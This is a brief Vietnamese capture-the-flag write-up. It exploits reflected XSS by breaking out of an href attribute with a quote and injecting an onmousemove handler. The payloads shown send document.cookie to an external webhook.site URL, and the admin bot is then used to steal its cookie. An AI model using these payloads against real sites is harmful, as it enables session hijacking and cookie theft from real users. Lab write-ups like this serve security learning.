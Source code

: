 Challenge: 

Sau khi truy cập trang web: \
![alt text](image.png)

Test thử 1 vài chức năng, sau đó thử 1 đoạn url ko có sẵn nó sẽ báo lỗi:
![alt text](image-1.png)

Xem thử source code
![alt text](image-2.png)

ta thấy đoạn path được thêm vào sau `?p=`, ta sẽ thử thoát khỏi thuộc tính href bằng chèn thêm `'`: `' onmousemove='alert(1)`

Kết quả khi ta đưa chuột qua: \
![alt text](image-3.png)

Đến đây ta biết đã có thể XSS, tạo payload để gửi gói tin qua webhook: \
`' onmousemove='fetch("https://webhook.site/1b6e1612-f794-41d6-83a8-8bf67316dbec")`\
![alt text](image-4.png)

Tạo payload để lấy cookie: \
`' onmousemove='fetch("https://webhook.site/1b6e1612-f794-41d6-83a8-8bf67316dbec?c=".concat(document.cookie))`
![alt text](image-5.png)

Bây giờ report cho admin và đợi kết quả: 
![alt text](image-6.png)
